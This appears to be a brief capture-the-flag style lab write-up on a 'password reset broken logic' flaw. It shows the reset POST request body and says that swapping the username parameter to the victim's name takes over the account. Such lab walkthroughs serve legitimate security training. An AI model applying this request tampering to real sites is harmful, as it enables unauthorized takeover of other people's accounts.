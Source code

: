 Title: Password reset broken logic
Desc: This lab's password reset functionality is vulnerable. To solve the lab, reset Carlos's password then log in and access his "My account" page. 
    Your credentials: wiener:peter
    Victim's username: carlos



![image](https://github.com/user-attachments/assets/c317ae3c-9ec1-4530-828a-e9ea91b858ba)

I have found the request to : `/forgot-password?temp-forgot-password-token=9fd3d8436huonsaff9dvywuy08izip6g`, request type `POST` and body of the request is
`temp-forgot-password-token=9fd3d8436huonsaff9dvywuy08izip6g&username=wiener&new-password-1=wiener&new-password-2=wiener`

I changed uername to carlos and that's all.



